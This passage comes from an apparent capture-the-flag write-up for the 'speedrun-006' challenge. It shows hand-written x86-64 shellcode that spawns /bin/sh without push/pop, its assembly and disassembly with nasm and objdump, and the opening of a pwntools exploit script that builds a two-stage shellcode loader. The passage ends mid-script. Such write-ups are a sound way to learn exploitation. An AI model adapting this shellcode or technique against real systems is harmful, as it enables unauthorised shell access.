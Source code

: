 then here is the shellcode I used to actually get a shell (remember I couldn't use pop/push):
```
gef➤  x/7i $rip
=> 0x7fc1735c607d:	mov    al,0x3b
   0x7fc1735c607f:	lea    rdi,[rip+0xfffffffffffffff8]        # 0x7fc1735c607e
   0x7fc1735c6086:	movabs rcx,0x68732f6e69622f
   0x7fc1735c6090:	mov    QWORD PTR [rdi],rcx
   0x7fc1735c6093:	xor    rsi,rsi
   0x7fc1735c6096:	xor    rdx,rdx
   0x7fc1735c6099:	syscall 
```

Also to assemble the assembly code into opcodes, I just used nasm. Here's an example assembling the assembly file `shellcode.asm`

```
$	nasm -f elf64 shellcode.asm
$	ld -o shellcode shellcode.o
$	objdump -D shellcode -M intel

shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	b0 3b                	mov    al,0x3b
  400082:	48 8d 3d f8 ff ff ff 	lea    rdi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089:	48 b9 2f 62 69 6e 2f 	movabs rcx,0x68732f6e69622f
  400090:	73 68 00 
  400093:	48 89 0f             	mov    QWORD PTR [rdi],rcx
  400096:	48 31 f6             	xor    rsi,rsi
  400099:	48 31 d2             	xor    rdx,rdx
  40009c:	0f 05                	syscall 
```

Putting it all together, we get the following exploit:
```
from pwn import *

target = process('speedrun-006')
gdb.attach(target, gdbscript='pie b *0x9fe')
#gdb.attach(target, gdbscript='pie b *0xa97')

'''
shellcode to scan in additional shellcoe
0000000000400080 <_start>:
  400080:	b2 ff                	mov    dl,0xff
  400082:	48 8d 35 f8 ff ff ff 	lea    rsi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089:	48 83 c6 43          	add    rsi,0x43
  40008d:	0f 05                	syscall 
  40008f:	ff e6                	jmp    rsi
'''

# mov    dl,0xff
scan = "\xb2\xff"

# nops
scan += "\x90\x90\x90\x90\x90\x90\x90"

# lea    rsi,[rip+0xfffffffffffffff8]
scan += "\x48\x8d\x35\xf8\xff\xff\xff"

# nops
```
